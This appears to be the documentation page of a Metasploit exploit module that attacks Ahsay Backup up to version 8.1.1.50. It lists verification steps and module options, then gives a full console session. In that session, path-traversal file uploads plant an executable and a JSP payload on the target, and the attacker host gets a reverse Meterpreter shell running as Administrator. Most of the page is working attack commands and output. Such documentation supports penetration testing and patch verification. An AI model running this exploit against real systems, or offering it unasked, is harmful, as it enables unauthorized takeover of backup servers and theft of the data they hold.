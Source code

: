 ## Vulnerable Application

  Ahsay Backup v7.x - v8.1.1.50
  Download the vulnerable version: `http://ahsay-dn.ahsay.com/v8/81150/cbs-win.exe`
  Start the application ( I start it manually from `C:\Program Files\AhsayCBS\bin\startup.bat`)

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ahsay_fileupload`
  3. enable create trial account `set CREATEACCOUNT true`
  4. set RHOST `set RHOST 172.16.238.175`
  5. set LHOST `set LHOST 172.16.238.235`
  6. run exploit `run`
  7. We should receive a meterpreter shell.

## Options

   CREATEACCOUNT  - Create a Trial account, use this when trial accounts is enabled and you do not have a valid credentials.
   PASSWORD       - Password to Ahsay useraccount, if CREATEACCOUNT is set this password will be used.
   RHOST          - Target address.
   RPORT          - The target port (TCP).
   TARGETURI      - Path to Ahsay installation
   UPLOADPATH     - Path to where the file should be uploaded
   USERNAME       - Username to Ahsay account, if CREATEACCOUNT is set this username will be used.

## Scenarios

### Ahsay 8.1.1.50 on Windows 2003 SP2

  ```
msf exploit(windows/misc/ahsay_fileupload) > set CREATEACCOUNT true
CREATEACCOUNT => true
msf exploit(windows/misc/ahsay_fileupload) > set RHOST 172.16.238.175
RHOST => 172.16.238.175
msf exploit(windows/misc/ahsay_fileupload) > set LHOST 172.16.238.235
LHOST => 172.16.238.235
msf exploit(windows/misc/ahsay_fileupload) > run

[*] Started reverse TCP handler on 172.16.238.235:4444 
[+] Username and password are valid!
[+] No need to create account, already exists!
[*] Uploading payload
[+] Successfully uploaded ../../webapps/cbs/help/en/lcofxnrzON.exe
[*] Uploading payload
[+] Successfully uploaded ../../webapps/cbs/help/en/myjnJMFlNi.jsp
[*] Triggering exploit! https://172.16.238.175:443/cbs/help/en/myjnJMFlNi.jsp
[+] Exploit executed!
[*] Sending stage (179779 bytes) to 172.16.238.175
[*] Meterpreter session 1 opened (172.16.238.235:4444 -> 172.16.238.175:1114) at 2019-07-16 14:59:45 +0200
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/lcofxnrzON.exe' on the target
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/myjnJMFlNi.jsp' on the target

meterpreter > getuid
Server username: AHSAY-123\Administrator
  ```
